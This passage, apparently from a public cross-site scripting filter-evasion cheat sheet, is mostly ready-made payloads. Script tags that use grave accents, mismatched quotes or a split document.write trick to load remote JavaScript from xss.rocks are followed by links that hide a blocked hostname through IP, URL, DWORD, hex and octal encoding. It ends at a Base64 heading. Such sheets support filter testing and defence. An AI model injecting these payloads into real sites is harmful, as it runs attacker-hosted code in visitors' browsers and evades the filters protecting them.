 And one last XSS attack to evade, `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\](+))?)+\\s\*|\\s\*)src/i`
using grave accents (again, doesn\'t work in Firefox): 
```
     <SCRIPT a=`>` SRC="httx://xss.rocks/xss.js"></SCRIPT>
```
 
Here\'s an XSS example which works if the regex won\'t catch a matching pair of quotes but instead will find any quotes to terminate a parameter
string improperly: 
```
     <SCRIPT a=">'>" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```
 
This XSS still worries me, as it would be nearly impossible to stop this without blocking all active content:
 
```
    <SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="httx://xss.rocks/xss.js"></SCRIPT> 
```
 ### URL String Evasion
 The following attacks work if `http://www.google.com/` is
programmatically disallowed: 
#### IP Versus Hostname 
```
     <A HREF="http://66.102.7.147/">XSS</A>
```
 
#### URL Encoding 
```
     <A HREF="http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D">XSS</A>
```
 
#### DWORD Encoding 
Note: there are other of variations of DWORD encoding - see the IP Obfuscation calculator below for more details:
 
```
    <A HREF="http://1113982867/">XSS</A> 
```
 #### Hex Encoding
 The total size of each number allowed is somewhere in the neighborhood
of 240 total characters as you can see on the second digit, and since the hex number is between 0 and F the leading zero on the third hex
quote is not required: 
```
     <A HREF="http://0x42.0x0000066.0x7.0x93/">XSS</A>
```
 
#### Octal Encoding 
Again padding is allowed, although you must keep it above 4 total characters per class - as in class A, class B, etc:
 
```
    <A HREF="http://0102.0146.0007.00000223/">XSS</A> 
```
 #### Base64 Encoding
 